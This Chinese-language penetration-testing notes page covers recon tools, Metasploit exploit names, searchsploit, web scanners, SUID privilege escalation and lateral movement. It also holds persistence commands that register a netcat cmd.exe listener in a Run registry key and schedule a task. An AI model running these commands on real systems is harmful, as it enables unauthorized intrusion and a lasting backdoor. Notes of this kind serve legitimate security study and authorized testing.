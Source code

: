 https://github.com/Threekiii/Awesome-Redteam
https://github.com/CnHack3r/Penetration_PoC

Web漏洞分析
* 我们要挖掘什么漏洞?
* 应该从哪里挖掘?
* 网站源码分析
* 路径穿越 见 ## nginx 路径穿越
* https://github.com/swisskyrepo/PayloadsAllTheThings
* 已知源码
* 我们可以下载其源码本地分析
* 百度该源码漏洞
* 未知源码
* 黑盒测试该网站漏洞(手工、工具自动扫描)

## 渗透流程
1. awd/index.md 红队
1. 信息收集 > fscan/cscan/kscan(免杀), NMAP > AWVS > Appscan > Burpsuite > x-ray
    - scan - rw_scan_HCL.AppScan.Standard.v10.2.1.zip
    - scan - rw_scan_Invicti-Professional-v23.6.0.40861.zip
    - scan - rw_scan_awvs_Acunetix-v15.6-Linux-.zip
    - scan - rw_scan_Yakit-1.2.1-sp5-windows-amd64_6.exe
* 445 - 永恒之蓝, 有账户后 psexec 执行命令
* 2375端口: docker 未授权
* 21/2121:  ftp 匿名登录/未授权
* 6379:     redis/未授权
* msf > searchsploit thinkphp
```shell
  msf > searchsploit thinkphp
  cd /usr/share/exploitdb/exploits/php/webapps
  cat 46150.txt
```
* cs上线
  * logonpasswords
  * 收集域信息
2. msfconsole
```shell
migrate
search ms10_018 #(xp的)
ms08_067 # (445端口, 2008以外系统, KB958644)
-- ms17_010: 用 AutoBlue-MS17-010见90_tools
search ms17_010 # (永恒之蓝)
```
3. Web:  kali - web程序 -  ZAP 扫描
```
1. vulmap:  python vulmap.py -u http://192.168.50.8:2003/
2. web 目录遍历 `downfile.jsp?filename=fan.pdf` 测试 `../../../../etc/passwd`
```
4. [linux suid find 提权](https://mp.weixin.qq.com/s/8rgvLbOmmjcxVZT7BoW5Og)
```shell
find / -perm -4000 # 如果有find 执行下面
find ./ aaa -exec '/bin/sh' \;
```
5.横向移动/域
msf: 1. autoroute 2.add socks proxy 3.域控 4.psexec (需开启admin$共享和ipc$及445,知道密码或hash)
cs: smb上线其他域

## MSF
nmap 探测漏洞

searchsploit
."searchsploit"是一个用于Exploit-DB的命令行搜索工具,它还允许你随身带一份
Exploit-DB的副本.
* SearchSploit为您提供了在本地保存的存储库中执行详细的离线搜索的能力.这种能力特
别适用于在没有互联网接入的情况下对网络进行安全评估.许多漏洞都包含了二进制文件
的链接,这些文件不包含在标准存储库中,但可以在我们的Exploit-DB二进制文件中找到
* 如果您预计您将在一个没有Internet的网络环境进行渗透测试,请确保您检查了两个存储库
以获得最完整的数据集.注意,这个工具的名称是"SearchSploit",顾名思义,它将搜
索所有的漏洞和shellcode.它不会包含任何文件和谷歌黑客数据库的结果
* 终端输入searchsploit启动(已经默认在Kali/Parrot中安装)

https://www.exploit-db.com/

```shell
searchsploit
searchsploit -m xxxx/xxx.py  # 复制到当前目录
searchsploit -t linux remote # 标题包含Linux Remote
searchsploit apache
```

基本搜索
* 基本搜索会同时匹配标题和路径中的内容
* 如:searchsploit smb windows remote
* 标题搜索
* 标题搜索只匹配标题,不会对路径中的关键词进行匹配
* 如:searchsploit-t smb windows remote
* 删除不想要的结果
* 使用--exclude＝选项删除不想要的结果
* 如:searchsploit smb windows remote--exclude＝＂(POC)Jtxt＂

## AWVS
Acunetix Web Vulnerability Scanner(简称AWVS)是一款知名
的网络漏洞扫描工具,它通过网络爬虫测试你的网站安全,检测流
行安全漏洞.
Acunetix推出了一个具有漏洞的测试网站
http://test.vulnweb.com/.

AWVS常见功能
* 网站爬行
* 漏洞扫描
* 目标发现
* 子域名扫描
* http 编辑
* http嗅探
* http模糊测试
* 认证测试
* 网络服务扫描器

linux 版本安装后。访问时用https://xxx:3443/

[AWVS13批量添加目标脚本](https://blog.csdn.net/weixin_45382656/article/details/118565077)

## xray
https://github.com/chaitin/xray

awvs+xray https://www.cnblogs.com/zzjdbk/p/13195955.html

```
xray webscan --basic-crawler http://example.com --html-output vuln.html
xray webscan --listen 0.0.0.0:7001 --html-output awvs.html
xray webscan --listen 127.0.0.1:7777 --html-output proxy.html
```
### crawergo联动
https://www.freebuf.com/sectool/252790.html

```sh
crawlergo -c YourChromiumPath -t 标签页数 Url
./xray webscan --listen 127.0.0.1:7777 --html-output vulnerability.html
./crawlergo -c chrome-mac/Chromium.app/Contents/MacOS/Chromium -t 10--request-proxy http://127.0.0.1:7777 http://testphp.vulnweb.com/
```

> 如果想半⾃动化⼀点，比如测试多个url可以参考：https://github.com/timwhitez/crawlergo_x_XRAY

与 w13scan 联动：
```sh
python3 w13scan.py -s 127.0.0.1 --html   # 会监听7778
/crawlergo -c chrome-mac/Chromium.app/Contents/MacOS/Chromium -t 10 --request-proxy http://127.0.0.1:7778 http://testphp.vulnweb.com/
```

## 存在目录时，返回403响应码

# 进行权限维持
开机自启动
每次启动登录时都会按顺序自动执行.
```bash
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer\Run
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\Explorer\Run
```
- 上传nc

upload nc.exe C:\\windows\\system32

- 查看自启动注册表项I

reg enumkey-k HKLM\\software\\microsoft\\windows\\currentversion\\un

- 添加注册表,开机启动nc并开启监听

reg setval -k HKLM\\software\\microsoft\\windows\\currentversion\\run -v nc-d 'C:\\windows\\system32\\nc64.exe-Ldp 5555-e cmd.exe'

- 查看注册表指定项值

reg queryval -k HKLM\\software\\microsoft\\windows\\currentversion\\Run -v nc

- 计划任务

`schtasks /create /sc MINUTE /mo 1 /tr C:\Users\Administrator\Desktop\mx\5555.exe /tn test`


# 系统审记
## nginx 路径穿越
```
location /xxx {
  alias /abc/;
}
```
修复

```
location /xxx/ {
  alias /abc/;
}
```